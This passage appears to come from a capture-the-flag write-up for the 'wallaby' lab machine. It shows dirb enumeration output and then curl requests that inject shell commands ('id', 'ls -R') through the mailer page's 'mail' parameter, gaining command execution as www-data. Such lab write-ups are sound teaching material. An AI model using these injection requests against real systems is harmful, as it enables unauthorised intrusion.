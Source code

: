 START_TIME: Wed May  1 22:14:23 2019
URL_BASE: http://wallaby:60080/?page=
WORDLIST_FILES: /usr/share/dirb/wordlists/big.txt

-----------------

GENERATED WORDS: 20458                                                    	 

---- Scanning URL: http://wallaby:60080/?page= ----
+ http://wallaby:60080/?page=blacklist (CODE:200|SIZE:986)                                         	 
+ http://wallaby:60080/?page=cgi-bin/ (CODE:200|SIZE:892)                                          	 
+ http://wallaby:60080/?page=contact (CODE:200|SIZE:895)                                           	 
+ http://wallaby:60080/?page=home (CODE:200|SIZE:1139)                                             	 
+ http://wallaby:60080/?page=index (CODE:200|SIZE:1053)                                            	 
+ http://wallaby:60080/?page=mailer (CODE:200|SIZE:1077)

{{< / highlight >}}

With some manual inspection of the mailer page, I found our entry point

{{< highlight markdown >}}
root@kali:~/wallaby# curl  'http://wallaby/?page=mailer&mail=id'
...
uid=33(www-data) gid=33(www-data) groups=33(www-data)
<h2 style='color:blue;'>Coming Soon guys!</h2>


{{< / highlight >}}

We have remote command execution!

{{< highlight markdown >}}
root@kali:~/wallaby# curl  'http://wallaby/?page=mailer&mail=ls%20-R'
...
.:
eye.jpg
index.php
levelone.txt
s13!34g$3FVA5e@ed
sec.png
./s13!34g$3FVA5e@ed:
althome.php
blacklist.php
contact.php
first_visit.php
home.php
honeypot.php
index.php
mailer.php
welcome.php
...
{{< / highlight >}}

We tinkered with this manually to explore things, getting a list of running processes and so on. It didn't take long for that to become tedious, so we whipped up a trivial Python script to make things easier.
